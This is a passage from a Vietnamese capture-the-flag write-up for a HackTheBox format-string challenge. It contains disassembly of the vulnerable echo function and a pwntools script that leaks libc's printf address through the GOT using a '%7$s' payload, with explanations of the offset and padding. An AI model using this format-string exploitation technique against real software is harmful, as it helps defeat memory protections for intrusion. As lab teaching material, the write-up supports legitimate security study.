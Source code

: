 ```python3
log.info("Base ELF address: {}".format(hex(base_elf)))
elf.address = base_elf 
```  
## Bước 2: Leak địa chỉ `__printf` từ libc thông qua `printf()`  
```bash
pwndbg> disassemble echo
Dump of assembler code for function echo:
   0x0000559e0bc191a9 <+0>:	endbr64 
   0x0000559e0bc191ad <+4>:	push   rbp
   0x0000559e0bc191ae <+5>:	mov    rbp,rsp
   0x0000559e0bc191b1 <+8>:	sub    rsp,0x110
   0x0000559e0bc191b8 <+15>:	mov    rax,QWORD PTR fs:0x28
   0x0000559e0bc191c1 <+24>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000559e0bc191c5 <+28>:	xor    eax,eax
   0x0000559e0bc191c7 <+30>:	mov    rdx,QWORD PTR [rip+0x2e62]        # 0x559e0bc1c030 <stdin@@GLIBC_2.2.5>
   0x0000559e0bc191ce <+37>:	lea    rax,[rbp-0x110]
   0x0000559e0bc191d5 <+44>:	mov    esi,0x100
   0x0000559e0bc191da <+49>:	mov    rdi,rax
   0x0000559e0bc191dd <+52>:	call   0x559e0bc190a0 <fgets@plt>
   0x0000559e0bc191e2 <+57>:	lea    rax,[rbp-0x110]
   0x0000559e0bc191e9 <+64>:	mov    rdi,rax
   0x0000559e0bc191ec <+67>:	mov    eax,0x0
   0x0000559e0bc191f1 <+72>:	call   0x559e0bc19090 <printf@plt>
   0x0000559e0bc191f6 <+77>:	jmp    0x559e0bc191c7 <echo+30>
End of assembler dump.
pwndbg> disassemble 0x559e0bc19090
Dump of assembler code for function printf@plt:
   0x0000559e0bc19090 <+0>:	endbr64 
   0x0000559e0bc19094 <+4>:	bnd jmp QWORD PTR [rip+0x2f25]        # 0x559e0bc1bfc0 <printf@got.plt>
   0x0000559e0bc1909b <+11>:	nop    DWORD PTR [rax+rax*1+0x0]
End of assembler dump.
pwndbg> 
```
- Chúng ta sử dụng `%s` thay vì `%p` bởi vì `%s` sẽ đọc địa giá trị bên trong vùng nhớ được truyền vào printf và in ra cho đến khi gặp giá trị null. Điều đó có nghĩa nếu địa chỉ của vùng `GOT` được đưa vào thì chúng ta có thể in nó sẽ in ra địa chỉ của libc đang chứa trong nó. Cụ thể chúng ta sẽ thực hiện như sau:  
```python3
...
# ------------- Leaking _printf address through printf()
printf_got_ptl = elf.got["printf"]
log.info("printf@got.plt address: {}".format(hex(printf_got_ptl)))
r.sendline(b'AAAA%7$s' + p64(printf_got_ptl))
printf_leak = r.recv()
printf_libc = u64(printf_leak[4:10].ljust(8, b'\x00'))
log.success("Leaked __printf: {}".format(hex(printf_libc)))
...
```  
- Chúng ta lấy địa chỉ `printf@plt` thông qua lệnh `elf.got["printf"]`, sau đó gửi payload có dạng `"AAAA%7$s" + p64(printf_got_ptl)`. Số `7` ở đây là vì địa chỉ của got `p64(printf_got_ptl)` năm ở vị trí thứ 7 trên stack, do đó `%7s` sẽ lấy địa chỉ này ra và in giá trị chứa trong nó cũng chính là địa chỉ `libc`.
- Lệnh `ljust(8, "\x00")` được dùng để thêm các gía trị `\x00` vì cơ chế align  
```bash
➜  Format git:(main) ✗ python3 exploit.py
[*] '/home/ubuntu/Edisc/CTF/pwn-college/hackthebox/Format/format'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```